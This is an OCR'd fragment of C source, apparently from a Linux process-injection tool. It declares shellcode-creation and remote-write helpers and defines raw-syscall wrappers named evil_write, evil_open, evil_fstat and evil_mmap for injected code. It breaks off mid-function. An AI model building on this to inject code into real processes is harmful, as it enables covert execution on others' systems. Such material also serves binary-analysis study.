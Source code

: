 ```sh
uint64_t get_text_base(pid_t);
int pid_write(int, void *, const void *, size_t);
uint8_t *create_fn_shellcode(void (*fn)(), size_t len);

void *f1 = injection_code;
void *f2 = get_text_base;

static inline volatile long evil_write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_fstat(long fd, struct stat *buf)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $5, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_open(const char *path, unsigned long flags)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $2, %%rax\n"
    "syscall" : : "g"(path), "g"(flags));
    asm ("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile void * evil_mmap(void *addr, uint64_t len, uint64_t prot, uint64_t flags, int64_t fd, uint64_t off)
{
  long mmap_fd = fd;
  unsigned long mmap_off = off;
  unsigned long mmap_flags = flags;
  unsigned long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov %4, %%r8\n"
    "mov %5, %%r9\n"
    "mov $9, %%rax\n"
    "syscall\n" : : "g"(addr), "g"(len), "g"(prot), "g"(flags),
    "g"(mmap_fd), "g"(mmap_off));
  asm ("mov %%rax, %0" : "=r"(ret));
  return (void *)ret;
```